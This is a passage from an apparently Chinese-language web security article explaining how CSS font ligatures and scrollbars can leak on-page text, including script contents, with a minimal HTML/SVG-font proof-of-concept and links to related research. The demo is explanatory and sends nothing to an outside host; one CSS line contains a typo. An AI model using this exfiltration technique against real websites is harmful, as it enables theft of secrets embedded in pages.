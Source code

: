 透過連字結合 scrollbar，我們可以一個字元一個字元，慢慢 leak 出畫面上所有的字，甚至連 JavaScript 的程式碼都可以！

你知道，script 的內容是可以顯示在畫面上的嗎？

``` css
head, script {
  display: block;
}
```

只要加上這個 CSS，就可以讓 script 內容也顯示在畫面上，因此我們也可以利用同樣的技巧，偷到 script 的內容！

在實戰上的話，可以用 SVG 搭配其他工具，在 server 端迅速產生字體，想要看細節以及相關程式碼的話，可以參考 Michał Bentkowski 寫的這篇：[Stealing Data in Great style – How to Use CSS to Attack Web Application.](https://research.securitum.com/stealing-data-in-great-style-how-to-use-css-to-attack-web-application/)

而 Masato Kinugawa 做了一個 Safari 版本的 demo，因為 Safari 支援 SVG font，所以不需要再從 server 產生字型，原始文章在這裡：[Data Exfiltration via CSS + SVG Font - PoC (Safari only)](https://github.com/masatokinugawa/css-exfiltration-svg-font/)

而這邊我就簡單做個簡化到不行的 demo，來證明這件事情是可行的。

``` html
<!DOCTYPE html>
<html lang="en">
<body>
  <script>
    var secret = "abc123"
  </script>
  <hr>
  <script>
    var secret2 = "cba321"
  </script>
  <svg>
    <defs>
    <font horiz-adv-x="0">
      <font-face font-family="hack" units-per-em="1000" />
        <glyph unicode='"a' horiz-adv-x="99999" d="M1 0z"/>
      </font>
    </defs>
  </svg>
  <style>
    script {
      display: block;
      font-family:"hack";
      white-space:n owrap;
      overflow-x: auto;
      width: 500px;
      background:lightblue;
    }

    script::-webkit-scrollbar {
      background: blue;
    }

  </style>
</body>
</html>
```
